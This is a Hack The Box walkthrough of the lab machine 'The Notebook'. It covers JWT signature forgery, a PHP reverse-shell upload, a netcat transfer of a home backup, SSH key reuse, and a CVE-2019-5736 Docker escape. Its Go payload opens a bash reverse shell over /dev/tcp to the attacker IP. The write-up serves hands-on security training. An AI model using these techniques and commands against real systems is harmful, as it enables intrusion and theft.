 # Hack The Box Guide by Alen Peric:
## The Notebook
### IP: 10.10.10.230

### Summary: 

The Notebook introduces us to jwt token manipulation. Lots of interesting lessons on base64 encoding/decoding, constructing cookies and manipulating them. Great insight into transferring files using netcat. This machine also shows us how to manipulate the docker exec environment for privilege escalation. Touches on “go” and “tar” files, as well as ssh private keys for verification.

### CVE References:
- CVE-2019-5736 

**-------------------------------------------------------------------------------------------------------------------------------**

### Important Commands:
'- ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
- openssl rsa -in privKey.key -pubout -outform PEM -out privKey.key.pub
- nc -N 10.10.16.160 1717 < /var/backups/home.tar.gz
- nc -nvlp 1717 > home.tar.gz
- ssh -i id_rsa noah@10.10.10.230 
- Sudo -l
- sudo /usr/bin/docker exec -it webapp-dev01 bash
- go build main.go'

**-------------------------------------------------------------------------------------------------------------------------------**

### Notes:

Starting with enumeration, we observe that port 22 (SSH) and port 80 (HTTP) are open. There was also port 10010 open with rxapi, however that is a rabbid hole. Start your burpsuite, turn packet intercepts off and let’s head to the website. There is a small webapp running on there, where we are able to create an account and post notes to a website. After some experimenting trying to inject SQL and reverse shells to the website, we observe that there is a token that gets passed through the packet whenever we refresh the page. The cookie token looks like this:

Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Im1lMTIzIiwiZW1haWwiOiJtZUBtZS5jb20iLCJhZG1pbl9jYXAiOjB9.mtjs7cClGwfZSGFPP8gvpTXuFHCV7UOOxcvc7fvooUKkuOheg1RuiUqWo0Ba7CcC5fBozAU6Vt5jyJ0r1Qmtg1_j8VowZfbqJmwilf89TzDM977yb8WUuqp6fm_rHv0RzJPCQ0V0u_AqOKBr1UOvQsvnwgNO9VcLhpOtRuKovrcf2vY3cwbaK6zNzAT4n9RubQSW2rsmchX3t7FoHzP5Y8HmAbDBZifOEXMymu2Uwjl71S_IHcvGfzweBwa0iYBEsBC4vaDgXh7_RUVx5qn6AjWhrlCRzc24aD-gz-Omy8uVIfVxtRQJ3vyzud1pGkQjJO2bI94c_JjnjFH7WQoXHKjA4PE5bUz-BErCXl2uTPQKrzllKnPzUODfEUNgAQ_HnncBbB48QN69ja63_t3xbaH9Xvo-fiqGBaS68sAdxwFQDLdQ9fN_mcIyu1V9ibiKfZXKbiQmlB-TElmb1BX1bKgu7uLBrWGTV4cM5ucU1fGr0wX6UUazg1mQx5MGEUiCEW9qGL4ihPdUUzZwvP9PgDPGBFJeuwGWeEcnQpahBVEG04Jkmag8hoIMJUTFi35ZpLlcop4NzjSb_btrC0BGT9L6sh5xEeTZcb26g7RdCa5vhVQ_ARhZaUq8C4DIQNWg0uoIEmhSV8ed9JeikAloyUUrKqs44WUPwjDya_ob-2g; uuid=6662433b-f57b-43af-b026-04b151ed1a3c

This is a JWS token. It is encoded in base64. These tokens consist of a header, payload and signature. For this exercise, we will use the websites http://jwt.io and http://base64encode.com / http://base64decode.com/ . We can put the string into http://jwt.io and it shows us some of the fields that are in here. 



You will notice a few things. The red part of the text is the Header, the purple is the Payload and the blue is the signature. The mechanic that occurs here is once the website receives the packet from our host, it will check its localhost on port 7070 in order to make sure the signature of the cookie matches its private key. What we want to do here is modify the packet so that the machine will check our port to verify the signature with our private key. Changing anything on the Header and Payload on jwt.io will not update properly and as such we need to translate our token through the base64 website. We copy the red part of the text, decode it through base64, and change the localhost to our host IP. we re-encode the payload back to base64, add it to a notepad document and append a . to it, which is the separator in the token. We repeat the same for the payload, however, all we changed with the payload was the admin_cap bit from 0 to 1 which is going to make the user you created an admin for this cookie request. Modifying the bit only stays as long as we can generate our own cookie. 

Now it’s time to create a directory mkdir notebook && cd notebook then we generate a new set of ssh keys in this folder with the command: ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key this will generate new RSA keys for us. After this we are going to modify the format by issuing: openssl rsa -in privKey.key -pubout -outform PEM -out privKey.key.pub and then issue the cat command to view both files. We copy the entire key, including the ----BEGINNING OF RSA KEY---- and add both parts to our token in jwt.io website. This should show us that the signature is valid and the entire cookie is constructed. Before we are able to validate the cookie, we have to start hosting our privKey.key on port 7070. In order to accomplish this we start a mini python server on our port 7070, with the command python3 -m http.server 7070. Once this is accomplished, we refresh the notebook page, intercept the packet with burpsuite and replace the cookie token with the one we generated. If everything is done properly, once the website reloads, we should be able to access the admin panel. Remember that each page request will require you to replace the cookie token, in order to maintain admin access to the page. 

We can head to the admin panel now and we notice that we are able to upload files now. I uploaded a simple php reverse shell from Kali’s resources under /usr/share/webshells/php/php-reverse-shell.php or you could use the one from pentest monkey found here: http://pentestmonkey.net/tools/web-shells/php-reverse-shell and set up a netcat listener. Make sure to modify the php shell with your IP and port. Once the shell is uploaded we copy the name generated blablabla.php and append that name to the http://10.10.10.230/blablabla.php and that will trigger the reverse shell to call back to our netcat session. 

Now that we have a connection up and running, we issue the command whoami and it shows us we landed a shell as www-data. Browsing around the directory, we can find a copy of a home directory in /var/backups, as well as a home.tar.gz. While the home directory doesn’t give us all of the read permissions we need, we are able to read home.tar.gz just fine. We issue the command: nc -N 10.10.16.160 1717 < /var/backups/home.tar.gz on the target machine and nc -nvlp 1717 > home.tar.gz on our host machine. This will transfer a copy of home.tar.gz which we can unpack to find a copy of noah’s home directory with the command: tar . In noah’s home is a .ssh folder with a copy of Noah’s private and public key. We can use the private key to authenticate trough ssh, without providing a password. In order to do this, we issue the command ssh -i id_rsa noah@10.10.10.230 

Now that we have access to Noah’s account,  we can cd into his home directory where we find the user flag. Time to escalate our privileges to root! The first thing we do, whenever we test privilege escalation, is to see if the sudo has allowed us to issue any commands as them, without requiring a password. We are able to run the command /usr/bin/docker exec -it webapp-dev01* 

We search for an exploit on google: docker exec exploit github and one of the first results that comes up is a CVE-2019-5736 PoC page: https://github.com/Frichetten/CVE-2019-5736-PoC 
We clone the repository, and modify the main.go file. We will modify the payload, where it says var payload = “blabla”, we will replace it with the following command: var payload = “#!/bin/bash \n echo 'bash -i >& /dev/tcp/10.10.16.160/1337 0>&1' > /tmp/rev.sh && chmod +x /tmp/rev.sh && bash /tmp/rev.sh"

After this is done, we save the file and build our main by issuing the command go build main.go
This should result in producing a compiled file called just main. Start a mini http server on port 1010 so we are able to upload the main to the target machine as this will be the payload that will be executed to get us to root. We go back to the target machine and issue our sudo command to get into the docker container: sudo /usr/bin/docker exec -it webapp-dev01 bash. Now that we are in the docker container, running as sudo, we open a second instance of noah’s ssh shell and start a netcat listener on port 1337 on our local machine. On the docker instance, we cd into /tmp and then issue a wget http://10.10.16.160:1010/main to download the main we just built with go. Once it is downloaded, we issue the chmod +x ./main command in order to add executable permissions to it. Before we run it, make sure to have the same sudo /usr/bin/docker exec -it webapp-dev01 bash ready in the second terminal, as you’ll have to be quick. Run the ./main in the first docker instance and while it is initializing, issue the command in the second ssh shell and you should hey the response: no help topic for ‘/bin/sh’ if you see this, you’re on the right track and once the command finishes compiling, it should start a shell to root account in the netcat session that is listening on port 1337 should connect via the payload and grant us root permissions. Now we can cd into /root and retrieve our root flag! Good job on finishing this lab!




**-------------------------------------------------------------------------------------------------------------------------------**

### Lessons:

Amazing learns about JWT token manipulation. Aside from being able to redirect the verification process to our local machine and sign with our own private key. The alternative is the ability to change the JWT token’s alg field to none, which omits the need for a signature in the cookie. Lots of great information in here: https://cyberpolygon.com/materials/security-of-json-web-tokens-jwt/ as well as the actual website for decrypting JWT tokens can be found here: https://jwt.io/ 
Additionally, here is a great website to convert base64 and encode it: https://www.base64encode.org/ also there seems to be a brute-forcing tool for jwt tokens on github here: https://github.com/ticarpi/jwt_tool/ 
Getting the root flag is as usual with first issuing the sudo -l command and using a docker exec exploit against it: https://github.com/Frichetten/CVE-2019-5736-PoC The exploit may be found here and all we need to do is manipulate the payload variable in order for it to execute our commands. Also another good look into transferring files using netcat. 
